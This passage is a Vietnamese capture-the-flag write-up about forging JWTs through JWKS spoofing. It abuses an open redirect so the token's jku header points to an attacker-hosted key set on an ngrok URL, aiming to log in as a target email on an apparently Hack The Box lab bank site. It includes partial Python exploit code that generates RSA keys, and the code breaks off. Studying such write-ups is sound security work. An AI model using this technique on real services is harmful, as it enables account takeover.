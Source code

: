 ![Screenshot 2024-12-17 221101](https://cdn.hashnode.com/res/hashnode/image/upload/v1735616213941/8cb4e853-77c1-4cab-bf63-732ffdbc5b42.png align="left")

Ta được gợi ý rằng cái jku kiểu này không hề an toàn, vì ta có hẳn 1 endpoint cho phép redirect đến mọi trang web mình muốn trên con web bank này.

Sau 1 vài sự gợi ý đến từ các thành viên khác trong CLB, mình cx đã tìm được hướng để giải quyết vấn đề đăng nhập vào tài khoản gmail nạn nhân. Đó là JWKS Spoofing

Link: https://0xdf.gitlab.io/2022/05/07/htb-unicode.html

JWKS là JWT nhưng sử dụng thêm key làm cơ chế xác thực

Muốn biết được cấu trúc của key, hãy truy cập vào endpoint /.well-known/jwks.json, ở đây ta sẽ có cấu chúc cơ bản của key.

![Screenshot 2024-12-17 222605](https://cdn.hashnode.com/res/hashnode/image/upload/v1735616215716/9536550d-7d97-452a-b8f6-3c7b11307683.png align="left")

Ở trong bài này, cấu trúc của key bao gồm:

* alg: loại thuật toán của JWT
    
* kty ( key type ): Thuật toán dùng để tạo ra key
    
* use ( key use ): Mục đích sử dụng của khóa, ở đây là sig (signing)
    
* kid ( key identifier ): Mã nhận diện độc nhất của khóa
    
* n, e: 2 thành phần trong thuật toán RSA
    

Với tác dụng đó, thì thay đổi được jku sẽ thay đổi luôn signature của đoạn JWT đó, từ đó ta sẽ có cách tấn công sau.

Cách tấn công: Giống như bài được gửi trên cái link ở trên, ta sẽ tạo 1 bộ key giả mạo mà ta có thể kiểm soát, sau đó lợi dụng endpoint redirect để thay đổi jku, từ đó khiến ta có thể giả mạo được 1 JWT hợp lệ, đó chính là lý do kiểu tấn công này được gọi là JWKS Spoofing.

Đầu tiên chúng ta cần code ra 1 đoạn mã cho phép ta tạo ra 1 đoạn jwt sử dụng thuật toán rsa256, xong đó tạo ra 1 web để đăng fake key của chúng ta lên. Mình đã nhờ chatgpt code ra đoạn code sau:

```python
import jwt
import json
import base64
from datetime import datetime
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
from flask import Flask, jsonify

# 0. Nhập kid và redirect url
kid = "86147695-417b-46c7-85e7-1d71ef49562a"
redirect_url="https://8178-113-185-52-248.ngrok-free.app"
target_email="financial-controller@frontier-board.htb"

# 1. Tạo private key và public key ngẫu nhiên
private_key = rsa.generate_private_key(public_exponent=65537, key_size=2048)
public_key = private_key.public_key()

# Chuyển đổi private key và public key sang PEM
private_key_pem = private_key.private_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PrivateFormat.PKCS8,
    encryption_algorithm=serialization.NoEncryption()
)
public_key_pem = public_key.public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)

# 2. Thông tin header và payload của JWT
```